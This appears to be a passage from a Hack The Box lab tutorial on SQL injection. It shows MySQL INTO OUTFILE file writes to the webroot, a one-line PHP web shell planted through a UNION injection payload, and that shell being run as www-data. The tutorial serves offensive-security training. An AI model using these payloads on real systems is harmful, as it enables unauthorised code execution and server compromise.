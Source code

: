 ```
htb[/htb]$ cat /tmp/test.txt 
htb[/htb]$ ls -la /tmp/test.txt 
-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

As we can see above, the test.txt file was created successfully and is owned by the mysql user.

Tip: advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

Writing Files through SQL Injection
-----------------------------------

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write file written successfully! to the /var/www/html/proof.txt file, which we can then access on the web application:

SQL CODE
--------
```
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

If we don't see any errors on the page,which indicates that the query succeeded. checking for the file proof.txt on the web root,we see that it indeed exits

Writing a Web Shell
-------------------

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can will write the following PHP webshell, to be able to execute commands directly on the back-end server

PHP CODE
--------
```
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous UNION injection payload, and change the string to the above, and the file name to shell.php

SQL CODE
--------
```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Again if we don't see any errors which means the file write on the backend web root directory and its probably worked. This can be verified by browsing to the /shell.php file and executing commands via the 0 parameter,with ?0=id on our URL like following 
```
http://server_ip:port/shell.php?0=id
```
The output of the id command confirms that we have code execution and are running as the www-data user.
